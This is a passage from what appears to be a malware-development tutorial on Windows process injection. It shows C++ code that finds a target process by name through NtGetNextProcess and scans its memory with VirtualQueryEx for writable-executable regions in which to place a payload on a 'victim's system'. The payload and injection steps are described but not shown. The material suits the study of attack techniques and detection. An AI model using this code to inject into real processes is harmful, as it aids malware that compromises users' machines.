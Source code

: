 As you remember, the method is simple: we enumerate the presently running target processes on the victim's system, scan through their allocated memory blocks to see if any are protected with RWX, and then write our payload to this memory block.    

### practical example

Today I will use a little bit different trick. Let's say we are search specific process in the victim's machine (for injection or for something else).     

Let's go to use a separate function for hunting RWX-memory region from the victim process, something like this:    

```cpp
int findRWX(HANDLE h) {

  MEMORY_BASIC_INFORMATION mbi = {};
  LPVOID addr = 0;

  // query remote process memory information
  while (VirtualQueryEx(h, addr, &mbi, sizeof(mbi))) {
    addr = (LPVOID)((DWORD_PTR) mbi.BaseAddress + mbi.RegionSize);

    // look for RWX memory regions which are not backed by an image
    if (mbi.Protect == PAGE_EXECUTE_READWRITE
      && mbi.State == MEM_COMMIT
      && mbi.Type == MEM_PRIVATE)

      printf("found RWX memory: 0x%x - %#7llu bytes region\n", mbi.BaseAddress, mbi.RegionSize);
  }

  return 0;
}
```

Also a little bit update for our main logic: first of all, we are search specific process' handle by it's name:    

```cpp
typedef NTSTATUS (NTAPI * fNtGetNextProcess)(
  _In_ HANDLE ProcessHandle,
  _In_ ACCESS_MASK DesiredAccess,
  _In_ ULONG HandleAttributes,
  _In_ ULONG Flags,
  _Out_ PHANDLE NewProcessHandle
);

int findMyProc(const char * procname) {
  int pid = 0;
  HANDLE current = NULL;
  char procName[MAX_PATH];

  // resolve function address
  fNtGetNextProcess myNtGetNextProcess = (fNtGetNextProcess) GetProcAddress(GetModuleHandle("ntdll.dll"), "NtGetNextProcess");

  // loop through all processes
  while (!myNtGetNextProcess(current, MAXIMUM_ALLOWED, 0, 0, &current)) {
    GetProcessImageFileNameA(current, procName, MAX_PATH);
    if (lstrcmpiA(procname, PathFindFileName((LPCSTR) procName)) == 0) {
      pid = GetProcessId(current);
      break;
    }
  }

  return current;
}
```